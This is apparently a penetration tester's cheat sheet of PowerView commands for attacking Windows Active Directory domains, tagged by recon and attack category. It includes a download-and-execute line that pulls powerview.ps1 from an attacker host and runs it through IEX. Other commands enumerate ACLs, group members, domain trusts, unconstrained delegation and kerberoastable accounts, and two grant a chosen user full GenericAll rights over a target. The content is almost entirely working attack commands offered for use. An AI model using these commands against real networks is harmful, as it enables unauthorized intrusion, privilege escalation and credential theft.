 # powerview

% ad, windows, powerview

## load from remote
#platform/windows #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Set alternative creds to use
#platform/windows #target/remote  #cat/RECON 
Example : Use with commands as "-Credential $creds"

```powershell
$passwd = ConvertTo-SecureString "<password>" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential ("<domain>\<user>", $passwd)
```

## Get User from SID
#platform/windows #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Find user ACL 
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user ACL
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add user DACL
#platform/windows #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Find all groups our current user got access
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Find all users our current user got access
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## Add GenericAll to target for user
#platform/windows #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Find all Computer with unconstrained delegation
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Get all domain trust 
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Get all members of a a given group
#platform/windows #target/remote  #cat/RECON 
Example: Get-DomainGroupMember "Domain Admins" -Recurse

```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain> -Recurse
```



## Get list of kerberoastable users
#platform/windows #target/remote  #cat/RECON 
Description : The following will enumerate 'Kerberoastable' users for a given domain

```powershell
Get-DomainUser -SPN -Domain <domain> | select name, samaccountname, serviceprincipalname
```
